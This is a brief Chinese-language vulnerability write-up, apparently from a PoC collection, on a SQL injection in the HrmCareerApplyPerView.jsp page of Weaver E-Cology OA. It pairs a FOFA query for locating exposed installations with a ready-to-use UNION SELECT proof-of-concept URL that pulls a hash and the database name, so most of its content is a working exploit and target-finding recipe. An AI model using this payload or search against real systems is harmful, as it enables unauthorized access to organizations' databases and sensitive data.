 # 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology HrmCareerApplyPerView.jsp 文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感文件

## 漏洞影响

```
泛微OA E-Cology
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220706133317122](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207061333252.png)

验证POC

```
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

![image-20220706133435321](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207061334390.png)